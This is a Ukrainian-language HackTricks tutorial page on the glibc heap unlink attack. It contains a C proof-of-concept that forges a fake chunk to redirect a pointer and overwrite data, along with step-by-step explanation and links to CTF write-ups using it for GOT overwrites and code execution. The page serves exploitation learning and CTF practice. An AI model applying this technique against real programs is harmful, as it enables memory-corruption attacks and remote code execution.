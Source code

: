 # Атака Unlink

{% hint style="success" %}
Вивчайте та практикуйте хакінг AWS: <img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Навчання HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте хакінг GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Навчання HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

## Основна інформація

Коли цю атаку виявили, вона в основному дозволяла WWW (Write What Where), однак, були додані **перевірки**, що робить нову версію атаки більш цікавою, складною та **некорисною**.

### Приклад коду:

<details>

<summary>Код</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* Атака не працює, якщо використовуються tcaches (після версії 2.26)

### Мета

Ця атака дозволяє **змінити вказівник на блок так, щоб він вказував на 3 адреси перед собою**. Якщо нове місце (навколишність, де знаходився вказівник) містить цікаві речі, наприклад інші керовані виділення / стек..., можливо зчитати/перезаписати їх, щоб завдати більшої шкоди.

* Якщо цей вказівник знаходився в стеку, оскільки тепер він вказує на 3 адреси перед собою і користувач, можливо, може зчитати його та змінити, буде можливо витік чутливої інформації зі стеку або навіть змінити адресу повернення (можливо) без торканнясь канарейки
* У прикладах CTF цей вказівник знаходиться в масиві вказівників на інші виділення, тому, зробивши його вказувати на 3 адреси перед і маючи можливість зчитувати та записувати його, можливо зробити інші вказівники вказувати на інші адреси.\
Оскільки користувач може також зчитувати/писати інші виділення, він може витікати інформацію або перезаписувати нову адресу в довільних місцях (наприклад, в GOT).

### Вимоги

* Деякий контроль у пам'яті (наприклад, стек), щоб створити кілька блоків, надаючи значення деяким атрибутам.
* Витік стеку для встановлення вказівників фальшивого блоку.

### Атака

* Є кілька блоків (блок1 та блок2)
* Атакуючий контролює вміст блоку1 та заголовки блоку2.
* У блоку1 атакуючий створює структуру фальшивого блоку:
* Щоб обійти захисти, він переконується, що поле `size` є правильним, щоб уникнути помилки: `corrupted size vs. prev_size while consolidating`
* і поля `fd` та `bk` фальшивого блоку вказують на те місце, де зберігається вказівник блоку1 з зміщеннями -3 та -2 відповідно, так що `fake_chunk->fd->bk` та `fake_chunk->bk->fd` вказують на позицію в пам'яті (стек), де знаходиться справжня адреса блоку1:

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* Заголовки блоку2 змінені так, щоб вказувати, що попередній блок не використовується і що розмір - це розмір фальшивого блоку.
* Коли другий блок вивільняється, тоді відбувається роз'єднання цього фальшивого блоку:
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* Раніше було зроблено так, що `fake_chunk->fd->bk` та `fake_chunk->bk->fd` вказують на те саме місце (місце в стеці, де зберігалася `chunk1`), тому це був дійсний зв'язаний список. Оскільки **обидва вказують на те саме місце**, тільки останній (`fake_chunk->bk->fd = fake_chunk->fd`) буде **виконаний**.
* Це призведе до **перезапису вказівника на блок1 в стеці на адресу (або байти), збережену 3 адреси перед в стеці**.
* Таким чином, якщо атакуючий зможе контролювати вміст блоку1 знову, він зможе **писати всередину стеку**, можливо перезаписати адресу повернення, обійшовши канарейку та змінивши значення та вказівники локальних змінних. Навіть знову змінюючи адресу блоку1, збережену в стеці, на інше місце, де якщо атакуючий зможе знову контролювати вміст блоку1, він зможе писати де завгодно.
* Зверніть увагу, що це було можливо через те, що **адреси зберігаються в стеці**. Ризик та експлуатація можуть залежати від **того, де зберігаються адреси фальшивого блоку**.

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## Посилання

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* Хоча було б дивно знайти атаку unlink навіть у CTF, ось деякі описи, де ця атака використовувалася:
* Приклад CTF: [https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* У цьому прикладі, замість стеку є масив адрес, виділених за допомогою malloc. Атака unlink виконується для можливості виділення блоку тут, тому можливо керувати вказівниками масиву виділених адрес. Потім є ще одна функціональність, яка дозволяє змінювати вміст блоків за цими адресами, що дозволяє вказувати адреси на GOT, змінювати адреси функцій для отримання витоків та RCE.
* Інший приклад CTF: [https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* Точно так само, як у попередньому прикладі, є масив адрес виділень. Можливо виконати атаку unlink, щоб адреса першого виділення вказувала на кілька позицій перед початком масиву, а потім перезаписати це виділення на новій позиції. Таким чином, можливо перезаписати вказівники інших виділень, щоб вказувати на GOT atoi, вивести його, щоб отримати витік libc, а потім перезаписати GOT atoi адресою до одного гаджета.
* Приклад CTF з власними функціями malloc та free, які зловживають вразливістю, дуже схожою на атаку unlink: [https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* Є переповнення, яке дозволяє керувати вказівниками FD та BK власного malloc, який буде (власноруч) вивільнений. Крім того, у купі є біт exec, тому можливо витікати адресу купи та вказувати функцію з GOT на купу з shellcode для виконання.

{% hint style="success" %}
Вивчайте та практикуйте хакінг AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Навчання AWS Red Team Expert (ARTE) від HackTricks**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Вивчайте та практикуйте хакінг GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Навчання GCP Red Team Expert (GRTE) від HackTricks**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github репозиторіїв.

</details>
{% endhint %}
